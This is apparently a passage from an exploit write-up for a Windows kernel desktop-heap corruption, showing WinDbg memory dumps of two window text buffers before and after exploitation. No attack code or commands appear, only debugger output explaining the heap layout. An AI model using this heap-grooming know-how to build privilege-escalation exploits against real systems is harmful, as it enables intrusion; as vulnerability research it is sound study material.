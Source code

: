 ![](./figure/console.PNG)

According to the output, we can glance the corrupting desktop heap layout with WinDbg.

This is WND_1_Text and WND_2_Text at step 7 and step 8:

    1: kd> db fea2d7a8-8 l78*2
    fea2d7a0  0f 00 01 00 d9 00 00 08-00 00 00 00 1d 01 01 00  ................
    fea2d7b0  e8 00 00 08 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d810  00 00 00 00 00 00 00 00-0f 00 01 00 0f 00 00 08  ................
    fea2d820  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

This is the condition after be exploited at step 15 :

    0: kd> db fea2d7a8-8 l78*2
    fea2d7a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 0f 00 01 00  ................
    fea2d810  d9 00 00 08 00 00 00 00-1d 01 01 00 e8 00 00 08  ................
    fea2d820  f0 36 a3 fe 10 ca a2 fe-00 00 00 00 00 00 00 00  .6..............
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 0f 00 01 00-0f 00 00 08 00 00 00 00  ................
